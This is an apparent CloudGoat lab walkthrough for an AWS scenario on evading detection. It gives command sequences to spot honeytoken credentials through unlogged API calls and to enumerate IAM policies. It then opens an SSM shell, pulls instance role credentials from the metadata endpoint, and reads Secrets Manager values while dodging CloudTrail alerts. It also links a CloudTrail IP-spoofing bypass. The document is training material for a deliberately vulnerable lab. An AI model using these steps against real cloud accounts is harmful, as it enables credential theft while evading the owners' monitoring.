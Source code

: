 ## Easy Path

1. Iterate through the starting credentials to identify the honeytokens. There are a few ways to do this. Pacu has a module for this process, but we reccomend doing it manually in order to understand the process here. 

    ```bash
    # There are services which do not log to CloudTrail. Honeytokens almost never grant permissions to ANY services, let alone these services which do not log to CloudTrail. Thus ,the call below will fail for a honeytoken, but will reveal the ARN of the principal associated with the credentials. This information is usually sufficient to infer if the principal is only being used for honeytokens.
    aws --profile cg1 --region us-east-1 sdb list-domains
    # The above command reveals that user1 is "user/canarytokens.com@@kz9r8ouqnhve4zs1yi4bzspzz". These tokens are generated by a third party honeytoken service "canarytokens.com" (as you may have guessed). 
    aws --profile cg2 --region us-east-1 sdb list-domains
    # The above command reveals that user2 is "user/SpaceCrab/l_salander". This indicates that the honeytoken was generated by SpaceCrab (a tool which appears to now be outdated).
    aws --profile cg3 --region us-east-1 sdb list-domains
    # The above command reveals that user3 is "user/cd1fceca-e751-4c1b-83e4-78d309063830". Although not nearly as suspicious as the first two users, this UUID format indicated that the user is being automatically generated. This UUID format is also used by the SpaceSiren honeytoken tool.   
    aws --profile cg4 --region us-east-1 sdb list-domains
    # The above command reveals that user4 has permissions to the sdb service, and is therefore likely a legitimate user.
    ```

2. Now that you have identified which pair of credentials are honeytokens and which are likely legitimate, you can perform some enumeration to determine who you are, what group you are a part of, what permissions are assigned to that group, what EC2 instances exist, and which one to target in the next step.

    ```bash
    # The command below will reveal the ARN of your current principal. 
    aws --profile cg4 sts get-caller-identity
    # The command below will list the groups to which your user belongs.
    aws --profile cg4 iam list-groups-for-user --user-name r_waterhouse
    # The command below will list the policies attached to your group.
    aws --profile cg4 iam list-group-policies --group-name cg-developers
    # The command below will list out the developer policy in detail. You will see a statement focusing on SSM which includes "ssm:StartSession". This will be used later to get a shell on an EC2 instance.
    aws --profile cg4 iam get-group-policy --group-name cg-developers --policy-name developer_policy
    # The command below will reveal that the AWS managed policy "ReadOnlyAccess" is attached to the cg-developers group.
    aws --profile cg4 iam list-attached-group-policies --group-name cg-developers
    # The command below will list all EC2 instances, revealing the instance that we will target in this section "easy_path-cg-detection-evasion"
    aws --profile cg4 --region us-east-1 ec2 describe-instances
    ```

3. Use SSM to get a shell on the "easy_path" instance.

    ```bash
    # The command below will result in a shell on the EC2 instance of your choice. 
    aws --profile cg4 --region us-east-1  ssm start-session --target [INSTANCE_ID]
    ```

4. Determine if there is a role associated with this EC2 instance.

    ```bash
    # The command below will reach out to the IMDS endpoint, and will return the name of an instance profile.
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials
    # The command below will reach out to the IMDS endpoint, and will return credentials for the role associated with this instance.
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[INSTANCE_PROFILE]
    ```


5. Install the AWS CLI, list all secrets, and read the contents of the associated secrets. This step is another opportunity to trigger alerts. If you use the credentials associated with this instance from an unknown IP, an alert will be triggered. This is why we install the CLI on the EC2 instance and take actions from there.

    ```bash
    # The command below will confirm that the AWS CLI is not installed.
    aws --version
    # The command below will install the AWS CLI.
    sudo yum install awscli.noarch -y
    # The command below will confirm that the AWS CLI is installed.
    aws --version
    # The command below will list all secrets in secrets manager. 
    aws --region us-east-1  secretsmanager list-secrets
    # The command below will read out the value for the secret associated with this path. 
    aws --region us-east-1  secretsmanager get-secret-value --secret-id [SECRET_ARN]
    ```


## Hard Path

Steps 1-4 are almost identical for the "hard path" of this scenario. The only difference is, on step 3, you will target the "hard_path-cg-detection-evasion" instance. In this light, we will start the steps for the "hard path" on step 5, after you have retrieved the credentials from IMDS.

5. Check if the AWS CLI is installed. Realize you have no internet access. Unlike the "easy path", you cannot take actions with the CLI from this instance. Yet, like the "easy path", any event logged in CloudTrail, using credentials from this instance and from an IP other than that of this EC2 instance, will trigger alerts. 

    ```bash
    # The command below will confirm that the AWS CLI is installed. However, attempts to use it will fail. This is because the instance has no access to the public internet. 
    aws --version
    # You can run any aws command from this instance to confirm that it will not work.
    aws sts get-caller-identity
    ```

6. There is a way to spoof arbitrary IP addresses in CloudTrail, and you can read about it in [this blog post](https://www.hunters.ai/blog/hunters-research-detecting-obfuscated-attacker-ip-in-aws). Instead of walking through this entire technique in duplicate here, we have created a public github repo with terraform code that will deploy the necessary resources to perform the bypass.

    ```bash
    # Clone the repo that contains the solution.
    git clone https://github.com/RhinoSecurityLabs/cloud_goat_detection_evasion_hard_path_solution.git
    # Move into the repo
    cd cloud_goat_detection_evasion_hard_path_solution
    # Follow the README.md in this folder
    cat README.md
    ```
7. Once you have deployed the terraform resources mentioned above, you should have a shell on the ec2 instance that was created. Run the following on that instance.


    ```bash
    # The command below will list all secrets in secretsmanager.
    aws --region us-east-1 secretsmanager list-secrets
    # The command below will
    aws --region us-east-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
    ```

At this point you have finished the scenario. 